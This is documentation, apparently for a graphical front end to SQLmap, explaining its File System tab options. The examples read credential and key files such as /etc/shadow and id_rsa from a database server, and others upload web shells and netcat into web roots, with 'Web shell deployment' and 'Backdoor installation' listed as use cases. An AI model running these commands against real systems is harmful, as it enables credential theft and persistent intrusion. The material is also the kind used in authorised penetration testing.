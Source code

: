 # File System Tab - File System Access and File Operations

The File System tab controls how SQLmap accesses and manipulates files on the target database server, including reading, writing, uploading, and downloading files.

## 📋 Overview

The File System tab contains four main sections:
1. **File Reading** - Read files from the server
2. **File Writing** - Write files to the server
3. **File Upload/Download** - Transfer files to/from server
4. **Directory Operations** - Directory listing and navigation

## 📖 File Reading Options

### Read a File from the Back-end DBMS File System
**Parameter:** `--file-read=FILE`
**Description:** Read a file from the database server
**Examples:**
```
--file-read=/etc/passwd
--file-read=C:\Windows\System32\drivers\etc\hosts
--file-read=/var/www/html/config.php
--file-read=/home/user/.ssh/id_rsa
```
**Use Cases:**
- Configuration file access
- Password file reading
- Source code analysis
- Log file examination

### Read Multiple Files
**Parameter:** `--file-read=FILE1,FILE2,FILE3`
**Description:** Read multiple files in one command
**Examples:**
```
--file-read=/etc/passwd,/etc/shadow
--file-read=config.php,db.php,admin.php
--file-read=.htaccess,.htpasswd
```
**Use Cases:**
- Batch file reading
- Related file analysis
- Configuration file sets

## ✏️ File Writing Options

### Write a Local File to the Back-end DBMS File System
**Parameter:** `--file-write=LOCAL_FILE --file-dest=REMOTE_PATH`
**Description:** Upload a local file to the server
**Examples:**
```
--file-write=/local/shell.php --file-dest=/var/www/html/shell.php
--file-write=C:\local\nc.exe --file-dest=C:\Windows\Temp\nc.exe
--file-write=./webshell.jsp --file-dest=/opt/tomcat/webapps/ROOT/shell.jsp
```
**Use Cases:**
- Web shell deployment
- Backdoor installation
- Configuration modification
